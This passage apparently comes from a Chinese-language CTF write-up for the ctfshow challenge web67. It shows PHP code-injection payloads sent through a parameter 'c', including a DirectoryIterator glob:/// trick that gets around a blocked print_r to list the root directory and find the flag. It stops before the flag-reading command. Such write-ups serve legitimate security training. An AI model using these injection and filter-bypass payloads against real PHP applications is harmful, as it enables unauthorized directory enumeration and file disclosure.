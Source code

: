
------

#### web67

老规矩查看flag位置

```
c=print_r(scandir(dirname('/')));
```

![image-20240122125222584](照片/image-20240122125222584.png)

print_r()被禁，那我们换一个

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```

![image-20240122125401140](照片/image-20240122125401140.png)

找到flag位置，构建命令查看flag
